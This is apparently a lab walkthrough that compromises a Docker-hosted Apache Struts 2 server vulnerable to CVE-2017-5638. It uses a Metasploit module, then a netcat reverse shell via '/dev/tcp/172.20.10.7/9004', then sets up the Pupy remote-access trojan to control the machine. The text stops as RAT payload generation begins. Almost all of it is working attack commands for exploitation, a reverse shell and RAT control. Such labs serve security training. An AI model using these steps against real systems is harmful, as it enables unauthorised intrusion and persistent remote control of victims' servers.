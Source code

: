 ## How to solve

1. Run the stand with the RAT server and a vulnerable Struts 2 machine:

##### struts2:
```bash
$ docker run -d --rm -p 8080:8080 --name struts piesecurity/apache-struts2-cve-2017-5638
```
##### Pupyserver:
```bash
$ docker run -d --rm -v /tmp/projects:/projects -p 2022:22 --name pupy alxchk/pupy:unstable
```
2. Let's exploit the vulnerability using msf:
```bash
$msfconsole

msf6> use exploit/multi/http/struts2_code_exec_showcase

msf6> set RHOSTS localhost

msf6> set TARGETURI /integration/saveGangster.action

msf6> set PAYLOAD cmd/unix/generic

msf6> set cmd id

msf6> exploit
```
3. Secure access by creating a reverse connection:

Let's use the revshells.com resource to generate commands, open the listener
Open a new terminal window and run the netcat utility to accept a connection from a remote machine:
```bash
$nc -lvp 9004
```
Let's run the command that initiates a connection to netcat from the attacked machine:
```bash
msf6> set CMD 'sh -I >& /dev/tcp/172.20.10.7/9004 0>&1'
```
Now that the connection is established, we can start preparing to launch the pupy client side to more conveniently manage the compromised machine.

4. To work with pupy, you need to add your SSH key to the trusted ones:

Note that ~ is the home directory, i.e. need to generate a key. To do this, use the ssh-keygen utility and create a standard non-password protected key by pressing enter a few times.
```bash
$ cp ~/.ssh/id_rsa.pub /tmp/projects/keys/authorized_keys
```
Let's connect to the pupy server interface:
```bash
$ ssh -I ~/.ssh/id_rsa -p 2022 pupy@127.0.0.1
```
5. To generate payload, use the gen command:
